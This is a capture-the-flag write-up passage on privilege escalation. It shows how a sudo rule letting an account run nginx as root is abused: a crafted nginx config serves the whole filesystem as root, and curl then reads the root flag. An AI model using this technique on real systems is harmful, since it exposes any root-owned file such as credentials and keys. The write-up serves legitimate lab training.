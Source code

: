 ## Privilege Escalation

By checking if the compromised account have any `sudo` privileges (Figure 6), we find out that it can run the `nginx` application as `root` !

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/broker_sudo.png" alt=""><figcaption><p>Figure 6: Checking for elevated privileges.</p></figcaption></figure>

This can be exploited in two ways, either reading or writing files as `root`.&#x20;

### File Read

The first way is the simplest one. All we need to do is to configure the web server to listen to a port of our choice, and since it will run as `root`, we will be able to snatch the `root.txt` flag 🚩 (Figure 7)!

{% tabs %}
{% tab title="Exploit" %}
```bash
# move to a writable directory
cd ~
# create a malicious configruation file
activemq@broker:/home/activemq$ nano fileread.conf
# load the configuration file
sudo /usr/sbin/nginx -c /home/activemq/fileread.conf
# check that the port is listening
netstat -ntl | grep 9000
# snatch the flag
curl localhost:9000/root/root.txt
```
{% endtab %}

{% tab title="Configuration" %}
{% code title="fileread.conf" %}
```bash
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9000;
        root /;
        autoindex on;
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}
